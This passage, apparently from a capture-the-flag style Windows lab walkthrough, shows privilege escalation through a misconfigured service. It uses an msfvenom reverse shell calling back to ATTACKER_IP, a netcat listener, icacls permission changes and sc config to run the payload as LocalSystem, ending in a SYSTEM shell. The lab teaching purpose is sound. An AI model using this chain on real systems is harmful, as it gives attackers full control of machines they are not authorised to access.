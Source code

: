 ```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use `wget` to transfer your executable and move it to the desired location. Remember to grant permissions to `Everyone` to execute your payload:

```cmd
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using `sc.exe`):

```cmd
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Notice we can use any account to run the service. We chose `LocalSystem` as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```cmd
C:\> sc stop THMService
C:\> sc start THMService
```

And we will receive a shell back in our attacker's machine with SYSTEM privileges:

```bash
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```